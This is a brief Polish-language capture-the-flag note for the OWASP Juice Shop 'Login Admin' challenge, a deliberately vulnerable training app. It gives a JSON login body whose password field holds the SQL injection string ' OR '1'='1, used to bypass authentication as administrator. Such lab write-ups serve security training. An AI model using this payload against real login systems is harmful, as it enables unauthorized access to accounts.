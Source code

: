 # Challenge: Login Admin

## 🔍 Cel
Zaloguj się jako administrator.

## ⚙️ Payload
```json
{
  "email": "admin@juice-sh.op",
  "password": "' OR '1'='1"
}
